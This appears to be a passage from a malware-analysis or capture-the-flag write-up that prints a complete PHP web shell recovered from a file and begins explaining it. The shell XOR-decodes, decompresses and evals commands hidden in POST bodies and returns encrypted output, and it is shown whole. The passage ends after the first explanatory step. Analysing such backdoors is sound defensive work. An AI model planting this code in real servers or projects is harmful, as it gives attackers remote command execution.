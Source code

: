 `file ./x`:
```                                                             
x: PHP script, ASCII text ←
```

`cat ./x`:
```php
<?php 
eval('
	$k = "3ddf0d5c";
	$kh = "b6e7a529b6c2";
	$kf = "d598a771749b";
	$p = "afnqDsRcBpVmU71y";
	
	function x($t, $k) {
	    $c = strlen($k);
	    $l = strlen($t);
	    $o = "";
	    for ($i = 0; $i < $l;) {
	        for ($j = 0; ($j < $c && $i < $l); $j++, $i++) {
	            $o .= $t[$i] ^ $k[$j];
	        }
	    }
	    return $o;
	}
	
	if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
	    @ob_start();
	    @eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
	    $o = @ob_get_contents();
	    @ob_end_clean();
	    $r = @base64_encode(@x(@gzcompress($o), $k));
	    print("$p$kh$r$kf");
	}
');
```

**Explaining the PHP Backdoor Code**

This piece of code is a typical example of a **PHP backdoor** that allows an attacker to execute arbitrary commands on the server by sending them through a specially crafted HTTP request. Let's break down each section to understand how it works.

1. `eval()` and Variable Initialization

```php
eval('
	$k = "3ddf0d5c";
	$kh = "b6e7a529b6c2";
	$kf = "d598a771749b";
	$p = "afnqDsRcBpVmU71y";

[...]

');
```
